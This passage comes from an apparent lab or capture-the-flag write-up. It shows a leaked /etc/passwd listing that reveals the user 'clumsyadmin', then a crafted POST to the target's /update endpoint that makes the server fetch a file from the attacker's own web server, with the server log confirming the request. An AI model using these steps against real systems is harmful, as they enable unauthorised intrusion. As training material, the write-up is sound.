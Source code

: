 ```
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh

........SNIP.............
```

We find the username to be `clumsyadmin`. Now let us see if we can make a request to our box with this username.

```
POST /update HTTP/1.1
Host: 192.168.224.134:13337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 58

{"user":"clumsyadmin", "url":"http://192.168.49.224/test"}
```

```
┌──(root💀nehal)-[~]
└─# echo test > test
┌──(root💀nehal)-[~]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.224.134 - - [13/Jun/2021 04:05:59] "GET /test HTTP/1.1" 200 -
```

I have made a dummy file `test` and made the server request it. And we can see that the server successfully requests it.
